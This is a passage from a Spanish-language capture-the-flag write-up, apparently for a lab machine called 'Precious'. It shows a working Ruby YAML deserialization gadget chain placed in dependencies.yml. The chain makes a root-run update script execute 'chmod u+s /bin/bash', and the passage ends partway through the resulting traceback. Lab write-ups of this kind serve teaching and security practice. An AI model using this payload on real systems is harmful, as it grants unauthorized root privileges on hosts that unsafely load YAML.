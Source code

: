 ```bash
henry@precious:~$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
         
henry@precious:~$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Una vez modificado nuestro archivo `dependencies.yml` en el directorio actual, ejecutaremos el script de **Ruby**. Analizaremos los permisos del binario `/bin/bash` y comprobaremos que se le han asignado permisos de `SUID`.

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
	25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
	21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
	20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
	19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
	18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
	14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
	13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
	12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
	11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
	10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
	9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
	8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
	7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
	6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
	5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
```
